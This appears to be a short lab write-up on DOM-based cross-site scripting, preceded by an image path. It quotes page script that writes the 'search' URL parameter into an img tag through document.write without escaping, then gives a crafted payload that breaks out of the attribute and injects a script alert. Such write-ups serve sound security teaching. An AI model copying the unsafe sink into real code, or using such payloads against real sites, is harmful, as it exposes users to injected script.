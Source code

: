 #### Step 1 - Identify sink
```
<script>
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');}
	
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
   trackSearch(query);
}
</script>
```

#### Step 2 - Craft exploit

```'"><script>alert(1)</script>);//```

